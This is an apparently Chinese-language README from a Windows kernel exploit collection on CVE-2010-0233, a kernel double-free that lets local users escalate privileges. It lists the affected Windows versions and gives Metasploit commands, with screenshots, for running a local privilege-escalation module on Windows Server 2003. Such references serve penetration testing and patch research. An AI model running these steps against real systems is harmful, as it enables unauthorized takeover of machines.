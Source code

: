 ### CVE-2010-0233

#### 描述

内核中的双重免费漏洞允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP2    | :heavy_check_mark: |
| Windows Server 2008 |                  |         | SP2    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         |        |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### 利用方式

编译环境

- nmake 2013

测试系统windows server 2003 sp2 x86

![25](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86.gif?raw=true)

> msf利用

测试系统windows server 2003 sp2 x86，执行以下代码

```
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 3
run
```

可以看到当前权限是最低的

![image-20200823123824229](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86_msf.png?raw=true)

然后执行命令提权

![image-20200823123945054](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-0233_win2003_x86_msf2.png?raw=true)